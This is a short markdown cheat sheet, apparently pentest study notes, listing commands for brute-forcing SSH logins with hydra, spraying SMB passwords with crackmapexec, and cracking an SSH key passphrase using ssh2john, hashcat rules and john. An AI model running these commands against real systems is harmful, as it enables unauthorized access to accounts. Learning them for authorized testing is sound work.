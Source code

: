 # Brute forcing on services
## SSH

### hydra

```bash
hydra -L users.txt -p "password" ssh://$IP
hydra -L "users" -p password.txt ssh://$IP
hydra -L users.txt -p password.txt ssh://$IP

hydra -L users.txt -p "password" 2222 ssh://$IP
```

### crackmapexec

```bash
crackmapexec smb $IP -u users.txt -p "password"
crackmapexec smb $IP -u users.txt -p "password" --continue-on-success
```

### SSH Private Key Passphrase

```bash
chmod 600 id_rsa
ssh -i id_rsa -p 2222 user@$IP

ssh2john id_rsa > ssh.hash

hashcat -h | grep -i "ssh"

cat ssh.rule
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#

hashcat -m 22921 ssh.hash ssh.passwords -r ssh.rule --force

cat ssh.rule
[List.Rules:sshRules]
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#

sudo sh -c 'cat /home/kali/passwordattacks/ssh.rule >> /etc/john/john.conf'

john --wordlist=ssh.passwords --rules=sshRules ssh.hash
```

## RDP
### hydra

